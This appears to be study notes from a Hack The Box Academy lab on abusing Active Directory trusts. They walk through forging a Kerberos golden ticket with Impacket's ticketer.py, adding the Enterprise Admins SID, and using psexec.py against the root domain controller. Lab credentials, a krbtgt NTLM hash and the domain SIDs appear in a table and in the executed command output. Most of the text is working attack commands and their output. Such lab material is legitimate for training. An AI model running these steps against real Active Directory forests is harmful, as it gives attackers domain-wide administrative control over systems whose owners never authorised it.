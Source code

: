 ```powershell
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
520: INLANEFREIGHT\Group Policy Creator Owners (SidTypeGroup)
521: INLANEFREIGHT\Read-only Domain Controllers (SidTypeGroup)
522: INLANEFREIGHT\Cloneable Domain Controllers (SidTypeGroup)
525: INLANEFREIGHT\Protected Users (SidTypeGroup)
526: INLANEFREIGHT\Key Admins (SidTypeGroup)
527: INLANEFREIGHT\Enterprise Key Admins (SidTypeGroup)
```

## **Forging the Golden Ticket**

Use [`ticketer.py`](http://ticketer.py) from Impacket to create a forged trust ticket (golden ticket) for a non-existent user to impersonate:

```powershell
ticketer.py -nthash KRBTGTHASH -domain CHILDFQDN -domain-sid CHILDDOMAINSID -extra-sid ROOTDOMAINSID-519 FAKEUSER
```

This will save the forged ticket in `FAKEUSER.ccache`.

Set the `KRB5CCNAME` environment variable to tell the system to use this ticket:

```powershell
export KRB5CCNAME=FAKEUSER.ccache
```

## **Accessing the Root Domain**

| Required Items |  |
| --- | --- |
| htb\_student\_adm Password | HTB\_@cademy\_stdnt\_admin! |
| NTLM hash of the krbtgt account in the child domain | krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f::: |
| SID of the child domain | S-1-5-21-2806153819-209893948-922872689 |
| FQDN of the child domain | logistics.inlanefreight.local |
| Name of a target user to impersonate (doesn't need to be a real user) | hacker |
| SID of Domain Admin Users | S-1-5-21-2806153819-209893948-922872689-512 |
| SID of the Enterprise Admins group in the root domain | S-1-5-21-3842939050-3880317879-2865463114-519 |

Use Impacket's [`psexec.py`](http://psexec.py) to try authenticating to the root domain controller with the forged ticket, specifying the target IP:

```powershell
psexec.py CHILDFQDN/FAKEUSER@ROOTDC -k -no-pass -target-ip ROOTDCIP

# Created ticket
└──╼ $ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
```